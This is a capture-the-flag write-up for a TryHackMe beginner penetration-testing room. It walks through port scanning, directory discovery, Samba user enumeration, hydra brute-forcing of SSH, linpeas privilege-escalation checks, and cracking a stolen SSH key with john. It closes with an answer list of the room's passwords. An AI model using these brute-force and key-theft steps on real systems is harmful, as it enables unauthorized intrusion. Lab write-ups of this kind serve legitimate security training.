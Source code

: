 # [Pasic Pentesting](https://tryhackme.com/room/basicpentestingjt)

target_ip : 10.10.85.182

## Experiments :

1.  found open ports with `sudo nmap -A -Pn -T4 <ip>` : `22,80,139,445,8009,8080`
    
    ```
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http        Apache Tomcat 9.0.7
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.7

    ```

2.  found dir using gobuster : ip:80/development
    `sudo gobuster dir -u http://<ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt`
    
3.  scanned with `enum4linux -a <ip>` and found two users "jan" and "kay" for Samba Server 4.3.11-Ubuntu(running on port `445`)

4.  bruteforcing password with hydra on SSH and found password for jan:`armando`
    `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`

5.  bruteforcing password with hydra on SSH and found no password for kay
    `hydra -l kay -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`
    
6.  copied (scp) linpeas.sh(https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to target in `/dev/shm` ran it for privrlrdge escalation

7.  found `id_rsa` (private key) for `kay` and copied it.

6. `id_rsa` was passphrase protected so use `john` to crack it
    
    ```
    ~/john/run/ssh2john.py kay_id_rsa > john-kay_id_rsa 
    
    john john-kay_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt | tee kay_john
    
    ```

    found passphrase `beeswax` 

8.  ssh to kay@<ip>

10. found pass.bak in kay's home directory which is the last bit we need to complete the room. [cat and paste]


## Challenges Ans

1.  Deploy the machine and connect to our network [openvpn]

2.  Find the services exposed by the machine [nmap]

3.  What is the name of the hidden directory on the web server(enter name without /)? [gobuster]
    
    ```
    /development (Status: 301)
    /server-status (Status: 403)

    ```
4. User brute-forcing to find the username & password [enum4linux-usernames, hydra-passwd]

5.  What is the username? - jan

6.  What is the password? - armando

7.  What service do you use to access the server(answer in abbreviation in all caps)? - SSH

8.  Enumerate the machine to find any vectors for privilege escalation. [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

9.  What is the name of the other user you found(all lower case)? - kay

10. If you have found another user, what can you do with this information?

11. What is the final password you obtain? - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
